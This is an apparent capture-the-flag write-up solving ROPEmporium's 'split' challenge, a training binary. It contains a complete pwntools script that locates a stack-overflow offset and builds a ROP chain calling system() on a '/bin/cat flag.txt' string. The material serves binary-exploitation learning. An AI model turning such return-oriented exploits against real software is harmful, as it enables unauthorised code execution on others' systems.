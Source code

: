 # ROPEmporium (Split)
Split is the second challenge of the ROPemporium series on binary exploitation, it's a pretty simple challenge that just require you to make a system call using the address of the string "/bin/cat flag.txt", to find this string you can just look at the different functions the binary has and you should see one called `usefulString`, this symbol should contain the string we want.

For this challenge we will heavily rely on pwntools, python and gdb, although the challenge is pretty simple (took me 5 mins to solve) i think it's pretty educative on how to rop properly.

## Solving the Challenge
Looking at the [ROPEmporium Website](https://ropemporium.com/challenge/split.html) we are given the following instructions.
```
Still here

I'll let you in on a secret: that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen. 
```

We know there is the string "/bin/cat flag.txt" in the binary, and we can easily make a system call since the function is present in the binary.
```py
import pwn

pwn.context.arch = "amd64"
e = pwn.ELF("./split")

def find_eip(payload):
    io = pwn.process(e.path)
    io.sendlineafter(b"> ", payload)
    io.wait()
    rip_offset = pwn.cyclic_find(io.corefile.read(io.corefile.rsp, 4))
    pwn.log.info("Located RIP offset at {a}".format(a=rip_offset))
    return rip_offset

pop_rdi_ret = pwn.p64(0x4007c3)
offset = find_eip(pwn.cyclic(100))
io = pwn.process(e.path)
rop = pwn.ROP(e)
rop.system(e.symbols.usefulString)

payload = [
    b"A"*offset,
    rop.chain(),
    pop_rdi_ret
]

io.sendlineafter(b"> ", b"".join(payload))
io.interactive()
```

Running the following script should automatically find the crash offset and it will call system("/bin/cat flag.txt").
